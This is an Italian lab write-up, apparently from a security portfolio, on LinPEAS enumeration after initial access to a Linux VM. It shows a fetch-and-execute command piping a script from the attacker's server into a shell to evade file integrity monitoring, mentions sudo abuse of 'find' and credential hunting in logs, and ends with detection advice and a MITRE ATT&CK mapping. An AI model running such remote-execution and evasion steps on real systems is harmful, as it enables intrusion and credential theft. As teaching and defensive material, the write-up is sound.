



# Automated Post-Exploitation Enumeration: LinPEAS & Fileless Execution

- Ambiente Operativo: Ubuntu Linux (Target VM) & Kali Linux Purple (Attacker Server)
- Vettore di Accesso Iniziale: Accesso non privilegiato (Utente standard `nick`)
- Toolchain Utilizzata: Python HTTP Server, cURL, LinPEAS (Linux Privilege Escalation Awesome Script)
- Obiettivo: Condurre un'enumerazione massiva e automatizzata del sistema vittima per individuare vettori di Privilege Escalation, impiegando tecniche di esecuzione Fileless (In-Memory) per eludere i controlli di integrità del disco (FIM).

---

## Executive Summary

Il presente documento illustra le metodologie avanzate di enumerazione locale post-compromissione (Post-Exploitation). A fronte dell'acquisizione di un Initial Access su un sistema Linux, il fattore tempo e il mantenimento della Sicurezza Operativa (OPSEC) diventano critici. 

Per massimizzare l'efficienza della ricognizione riducendo al minimo l'impronta (footprint) sul file system bersaglio, è stato impiegato lo script di automazione LinPEAS. L'esecuzione è avvenuta interamente in memoria RAM (Fileless Execution), bypassando le difese statiche. L'analisi dei risultati ha permesso di isolare istantaneamente misconfiguration critiche (permessi Sudo) e di condurre una caccia strutturata a credenziali in chiaro dimenticate nei file di log e di configurazione.

---

## Fase 1: Defense Evasion & In-Memory Execution (Fileless)

Scaricare malware o script di enumerazione direttamente sull'hard disk della vittima (es. tramite `wget` e salvataggio in `/tmp/`) rappresenta un grave rischio OPSEC, in quanto genera eventi facilmente rilevabili da soluzioni di EDR (Endpoint Detection and Response) o FIM (File Integrity Monitoring) come Wazuh o Tripwire.

Per eludere queste difese, LinPEAS è stato ospitato su un web server locale controllato dall'attaccante e iniettato direttamente nell'interprete dei comandi della macchina vittima tramite una Pipe Execution:

```bash
curl http://192.168.0.110/linpeas.sh | sh
```

Questa tecnica permette al processo sh di ricevere ed eseguire le istruzioni riga per riga direttamente dallo stream di rete, senza che alcun blocco di codice venga mai scritto in modo persistente sui dischi magnetici o a stato solido del server compromesso.



---

## Fase 2: Triage dei Vettori di Attacco (SUID/SUDO Hunting)

L'output generato da LinPEAS è intenzionalmente verboso e richiede un'attenta analisi per separare i falsi positivi ("rumore") dalle vulnerabilità sfruttabili ("segnale"). Lo script utilizza un codice cromatico specifico, dove le stringhe evidenziate in Rosso con sfondo Giallo indicano vettori di Privilege Escalation confermati al 99%.

Nel corso della scansione in memoria, l'analizzatore ha intercettato e flaggato immediatamente un'anomalia critica nelle policy di delega amministrativa. Come documentato nello stralcio di output, l'utente corrente era autorizzato a eseguire il binario `/usr/bin/find` con privilegi di `root` senza richiesta di password (`NOPASSWD`).


Figura 1: Output di LinPEAS che evidenzia in Rosso/Giallo la misconfiguration critica di sudoers relativa al binario 'find'.

Questa scoperta automatizza e conferma l'esito dell'enumerazione manuale condotta nel precedente assessment, offrendo un path diretto per l'esecuzione arbitraria di codice tramite parametro `-exec`.

---

## Fase 3: Credential Hunting & Information Discovery

Sistemi operativi regolarmente patchati e configurati correttamente dal punto di vista dei permessi dei binari possono comunque essere violati attraverso l'esposizione di segreti (Secret Leakage). La negligenza umana, come il salvataggio di stringhe di connessione a database in chiaro, rappresenta uno dei vettori LotL (Living off the Land) più efficaci.

Durante la sua esecuzione, LinPEAS ha effettuato un parsing aggressivo del file system, scansionando in particolare la directory `/var/log` e i file temporanei alla ricerca di keyword riconducibili a credenziali (`password`, `pwd`, `token`).



---

## Blue Team: Rilevamento e Contromisure (Detection Engineering)

Sebbene l'esecuzione Fileless non lasci tracce sul disco, le attività di LinPEAS sono altamente rumorose a livello comportamentale e di rete e possono essere intercettate implementando le seguenti strategie:

- Monitoraggio Processi (Process Tree Analysis): L'avvio di uno stream tramite pipeline che istanzia processi interattivi o una moltitudine di comandi di sistema ravvicinati (`find`, `grep`, `cat` invocati da `sh`) è un forte indicatore di compromissione (IoC). EDR e demone `auditd` devono allertare su esecuzioni anomale di `curl` o `wget` che passano l'output allo standard input di una shell (`| sh`, `| bash`).
- Network Traffic Analysis (NTA): Il download di script testuali (spesso superiori a 800 KB) da indirizzi IP non fidati verso porte non standard (es. 8000, 80 o 4444) dovrebbe innescare un alert IDS/IPS.
- Gestione dei Segreti (Secret Management): È imperativo implementare soluzioni come HashiCorp Vault o AWS Secrets Manager per le credenziali applicative, proibendo categoricamente (anche tramite l'uso di linter automatizzati nelle pipeline CI/CD) l'hardcoding di password all'interno di log, file di configurazione in testo in chiaro o script di backup (`.bak`, `.sh`).

---

## Mappatura MITRE ATT&CK

| Tattica |Tecnica | ID MITRE | Descrizione dell'Azione |
|---------|--------|----------|-------------------------|
| Execution | Command and Scripting Interpreter: Unix Shell | `T1059.004` |Utilizzo di `curl` interfacciato con `sh` per l'esecuzione in-memory dello script di ricognizione |
| Defense Evasion | Fileless Storage: In-Memory |`T1027` | Esecuzione diretta dalla RAM per bypassare le scansioni antivirus statiche e i controlli FIM (File Integrity Monitoring) |
|Discovery | System Information Discovery | `T1082` | Enumerazione massiva e automatizzata delle configurazioni di sistema e delle policy di privilegio (SUID/Sudo) |
| Credential Access | Unsecured Credentials: Credentials in Files | `T1552.001` | Ricerca di password in chiaro o frammenti di credenziali salvati in file di log, bash history e script locali |